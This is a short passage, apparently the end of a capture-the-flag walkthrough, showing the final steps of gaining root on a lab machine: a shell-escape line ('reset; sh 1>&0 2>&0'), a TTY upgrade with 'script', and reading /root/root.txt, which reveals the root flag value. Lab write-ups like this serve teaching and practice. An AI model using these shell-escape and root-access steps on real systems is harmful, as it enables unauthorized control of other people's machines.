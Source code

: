 			reset; sh 1>&0 2>&0
			```
		4. Switch to tty: `SHELL=/bin/bash script -q /dev/null`
		5. `cat /root/root.txt`: **Root Flag:** `2f907ed450b361b2c2bf4e8795d5b561`
		








